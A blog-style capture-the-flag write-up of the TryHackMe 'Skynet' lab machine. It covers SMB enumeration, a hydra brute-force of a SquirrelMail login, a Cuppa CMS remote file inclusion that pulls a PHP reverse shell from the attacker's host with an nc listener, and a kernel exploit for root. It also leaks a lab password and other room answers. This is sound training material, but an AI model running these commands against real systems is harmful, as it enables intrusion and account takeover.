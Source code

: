 ```yaml
---
layout: single
classes: #wide
title: "Try Hack Me - Skynet"
toc: true
toc_sticky: false
author_profile: true
collection: posts
categories: [CTF, Try Hack Me]
tags: [meterpreter, hydra, nmap, linux]
---
```

![title](/assets/images/skynet/title.png)
I started this machine like any other using a simple nmap scan to get an understanding of what services are running. And just as always, answers will be in the source code in comments.

![nmap](/assets/images/skynet/nmap.png)

Within the nmap scan we can see that there is a samba server running on port 139
and 445. This is a very good starting point to see if we have any access to the
samba shares. Running another nmap scan, but this time using the smb enumeration scripts using the `-sC` command whithin nmap will present us iwth this information:

![smb](/assets/images/skynet/nmapsmb.png)

This scan showed us that we have read and write acessability to the share
anonymous. Now, we can either mount the share to our system or we can read it on
the server. I chose to mount the drive with the command `sudo mount
//10.10.84.83/anonymous /mnt/skynet`.   

Listing the directory that we just mounted we find that therer are log files and
a notififcaiton from Miles Dyson telling us that there was a malfunction that
changed skynet employee passwords. Exploring the log files we will see the password changes for the employees. 
![pws](/assets/images/skynet/pws.png)

During this period of time I had a gobuster scan running. It found a few directories but the one thats important to note is `/squirrelmail`. Why? Because this mail server was what was being affected during the password resets.

Going back to the smb shares there was a share named milesdyson. Meaning more than likely there is a milesdyson user on the squirrel mail server. Going to the squirrelmail directory within the website we can see a login forum presented to us.   

Brute force time :smile:

Using hyrdra the paylod will look a little like this:  
`hydra -l milesdyson -P milessharepw.txt 10.10.84.83 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown user or password incorrect."`

Finding the password to the account is: 
<!-- cyborg007haloterminator! -->
    
After logging into milesdyson's squirrelmail account I figured I'd mess around
with some public CVE's and nothing worked that I had found. Now, looking myles's
emails there is one that stands out. `Samba Password Reset`, within that email we will find this:
![smbpw](/assets/images/skynet/smbpw.png)

YAY! We now know his smb password. Back to the smb shares we go. Upon mounting
miles's share we find a important.txt file within his notes folder. In this
folder contains his todo list of what he want's to accomplish more. 

![important](/assets/images/skynet/import.png)
 
Knowing he wants to spend more time with his wife gives us the upperhand :smiling_imp:

Definitely not the secret dierctory `/45kra24zxs28v3yd` :eyes:

So, now that we have a new directory we can go visit it, entering the site's new
unfound page there isn't a whole lot. But, if you remember Miles said something
about CMS /secret_dir. Now this we can do something about. Running another
gobuster on this subdomain we find out that there is a Cuppa CMS server running
under the `/administrator` directory. So, in full it is
`skynet/45kra24zxs28v3yd/administrator/`. 

Funny enough cuppa has a `remote file inclusion` vulnerability which can be found
[here](https://www.exploit-db.com/exploits/25971). Little hint this is an answer
to one of the questions. If you don't care to look
through it I'll give you the short version. Basically the program allows php
code injection at the url `/alerts/alertConfigField.php`. This is all thanks to
this line within that file on line 22:

`<?php include($_REQUEST["urlConfig"]); ?>`

So, we know there is a vulnerability. How can we take advantage of this? Well,
since we have RCE a simple php reverse shell (because its executing php) and
hosting the file on our computer for the server to obtain will be enough to give
us a user on the machine. 

so, 
```
python -m http.server 8887 - host file
nc -lvnp <reverse.php port> - listen for reverse shell
skynet/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=<ip>:8888/reverse.php - url for execution
```

Running these 3 commands gets us a user shell into the machine. 

Time to escalate!

Moving linpeas onto the machine and running it gives a few CVE's that we can exploit. Personally I chose [this](https://www.exploit-db.com/exploits/45010) one. Moving this onto the box, running gcc on the .c file and executing it is enough to give us root.


Just like that the box is ours :flushed:

Thank you for reading!  
-Ryushe 